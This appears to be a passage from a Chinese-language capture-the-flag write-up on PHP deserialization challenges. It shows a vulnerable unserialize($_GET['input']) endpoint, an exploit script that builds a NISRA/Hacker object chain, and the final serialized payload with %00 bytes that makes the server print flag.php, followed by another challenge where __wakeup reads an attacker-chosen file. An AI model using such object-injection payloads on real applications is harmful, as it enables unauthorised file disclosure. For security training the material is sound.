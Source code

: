 ```php
        }
    }

    $your_flag = unserialize($_GET["input"]);
?>
<hr/>
```

先建一個 Hacker 類別 (題目是建 Loser)，接著就是要讓 if 判別為 True。exploit:

```php
<?php
class NISRA{
        public $target;

        public function __construct(){
            $this->target = new Hacker();
        }

        public function __destruct(){
            $this->target->action();
        }
    }

    class Hacker{
        protected $code = 0xdeadbeef;
        public function action(){
            if($this->code == 0xdeadbeef){
                show_source('flag.php');
            }else{
                show_source('fake_flag.php');
            }
        }
    }

echo serialize(new NISRA());
```

獲得的序列化物件 `O:5:"NISRA":1:{s:6:"target";O:6:"Hacker":1:{s:7:"*code";i:3735928559;}}` 送回去是錯的，原因是 $code 型態為 protected，序列化後 `*` 的前後都有一個空字元，在 url 中以 %00 表示，修改後 `O:5:"NISRA":1:{s:6:"target";O:6:"Hacker":1:{s:7:"%00*%00code";i:3735928559;}}`，送出即得到 flag

### Deserialization 03

```php
<?php
    show_source(__FILE__);

    class FileExplorer{
        public function __construct($file){
            echo "<hr/>";
            show_source($file);
        }
    }

    class NISRA{
        public $file = "hi.php";
        public function __wakeup(){
            $obj = new FileExplorer($this->file);
        }
    }

    $your_flag = unserialize($_GET["input"]);
?>
```
